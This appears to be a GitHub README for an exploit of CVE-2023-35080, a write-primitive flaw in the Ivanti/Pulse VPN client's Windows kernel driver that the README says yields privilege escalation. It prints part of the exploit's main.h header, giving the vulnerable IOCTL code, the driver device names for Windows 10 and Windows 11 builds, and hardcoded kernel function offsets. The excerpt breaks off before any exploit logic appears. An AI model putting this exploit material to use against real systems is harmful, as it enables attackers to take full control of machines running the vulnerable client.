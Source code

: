 # Ivanti/Pulse VPN Client Exploit of `CVE-2023-35080` leading to a privilege escalation

Code related to the exploitation of the `CVE-2023-35080` which leverages a write primitive in the Ivanti/Pulse VPN client kernel driver in Windows.
The write primitive conducts to a privilege escalation. 

The exploit was built with the help of the technical details shared in the following article : <https://northwave-cybersecurity.com/ivanti-pulse-vpn-privilege-escalation>.

Some details are hardcoded under the `main.h` file :

```C
#pragma once

#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <winternl.h>


#define VULN_IOCTL  0x80002018

////////

/*
 * jnprTdi_9115_15819 W10
 */

 // #define DEVICE_NAME_W L"jnprTdi_9115_15819"

 // // KxWaitForSpinLockAndAcquire
 // #define SPIN_OFFSET 0x300ea0

 // // KxTryToAcquireSpinLock
 // #define TRY_SPIN_OFFSET 0x361758

 // // void write_char(byte param_1,byte **param_2,int *param_3)
 // #define WRITE_CHAR_OFFSET 0x3d5878

 ////////

 /*
  * jnprTdi_9117_18209 W11
  */

#define DEVICE_NAME_W L"jnprTdi_9117_18209"

  // KxWaitForSpinLockAndAcquire 
#define SPIN_OFFSET 0x300e9e

// KxTryToAcquireSpinLock
#define TRY_SPIN_OFFSET 0x361757

// void write_char(byte param_1,byte **param_2,int *param_3)
#define WRITE_CHAR_OFFSET 0x3d93f8

////////

[...]
```